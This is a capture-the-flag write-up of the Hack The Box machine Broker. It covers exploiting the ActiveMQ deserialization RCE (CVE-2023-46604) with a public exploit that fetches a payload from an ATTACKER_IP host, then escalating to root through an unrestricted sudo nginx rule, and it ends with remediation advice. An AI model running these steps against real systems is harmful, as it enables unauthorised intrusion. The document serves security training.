



# Broker — Hack The Box

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Status** | ✅ Retired |
| **Key techniques** | Apache ActiveMQ unauthenticated RCE (CVE-2023-46604), `sudo nginx` config abuse |

---

## TL;DR

Broker runs a version of Apache ActiveMQ vulnerable to a critical
unauthenticated RCE disclosed in late 2023. That gets a shell directly as the
service account. Root comes from a `sudo` rule allowing that account to run
`nginx` with an arbitrary configuration file — the same category of
misconfiguration behind a well-known Zimbra privilege escalation — letting me
serve the root flag over a locally-bound port and read it back with `curl`.

---

## Recon & Enumeration

```bash
nmap -sVC -O 10.129.230.87
```



SSH, HTTP, and port 61616 — ActiveMQ's default OpenWire protocol port,
running version **5.15.15**. That version is squarely inside the affected
range for **CVE-2023-46604**, a critical unauthenticated RCE in ActiveMQ's
OpenWire protocol handling.

---

## Foothold / Initial Access



A public exploit for CVE-2023-46604 generates a malicious XML payload and
serves it to the vulnerable OpenWire listener, which deserializes and
executes it:

```bash
python3 generate_poc.py -i <ATTACKER_IP> -p <LISTENER_PORT>
python3 -m http.server <HTTP_PORT>
python3 main.py -i 10.129.230.87 -u http://<ATTACKER_IP>:<HTTP_PORT>/poc.xml
```

This landed a shell as the `activemq` service account directly, with the user
flag in its home directory.

---

## Privilege Escalation

`sudo -l` showed the `activemq` user could run `/usr/sbin/nginx` with **no
password** — and with no restriction on which configuration file to use. That
matters because nginx's config format supports directives (like serving an
arbitrary filesystem path, or defining upstream/proxy behavior) that are
powerful enough to expose root-owned content when nginx itself runs as root:

```
sudo /usr/sbin/nginx -c <malicious.conf>
```



Following the same pattern documented on GTFOBins for `nginx`, a crafted
config made nginx bind to a local port and serve arbitrary files from disk —
in practice, this is the identical class of bug behind the Zimbra
CVE from around the same period, where a permitted `nginx`
invocation becomes a root-level file-read primitive. Checking listening
ports confirmed the new nginx instance:

```bash
ss -tlpn
```

Port `1337` was listening locally, and requesting the root flag through it
worked directly:

```bash
curl localhost:1337/root/root.txt
```

---

## Lessons Learned

- **A version number on an unusual port (ActiveMQ's 61616) is still worth a
  CVE lookup** — this exact CVE was disclosed only months before this box was
  released, a reminder to keep scanning obscure ports with the same rigor as
  80/443.
- **`sudo` rules granting a full binary invocation of a web server
  (`nginx`, `httpd`) are a root-level file-read/write primitive** — the
  binary itself doesn't need a known CVE; its *configuration flexibility* is
  the vulnerability.
- **This is the same misconfiguration pattern as a real, publicly disclosed
  Zimbra privilege escalation** — recognizing the *shape* of a bug (not just
  memorizing individual CVEs) transfers across completely different products.

---

## Remediation

- Patch ActiveMQ promptly; this CVE had working public exploits within days
  of disclosure.
- Never grant unrestricted `sudo` access to a web server binary — if a
  service account must manage nginx, scope it to a specific, non-writable
  configuration file via a wrapper script instead.
- Monitor for unexpected listening ports appearing after a `sudo`-invoked
  process starts — a new local listener is a strong incident signal.

---

**Machine:** [Hack The Box — Broker](https://www.hackthebox.com/machines/broker)
